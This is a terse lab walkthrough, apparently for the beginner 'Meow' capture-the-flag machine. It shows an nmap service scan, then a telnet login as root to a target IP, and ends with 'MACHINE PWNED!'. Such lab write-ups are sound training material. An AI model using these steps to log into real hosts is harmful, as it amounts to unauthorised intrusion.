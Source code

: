 1. 
```bash
nmap -sV [ip machine]
```
2. 
```bash
telnet [ip machine]
	Meow login: root
```

1. port 23/tcp - open - Telnet
2. **MACHINE PWNED!**
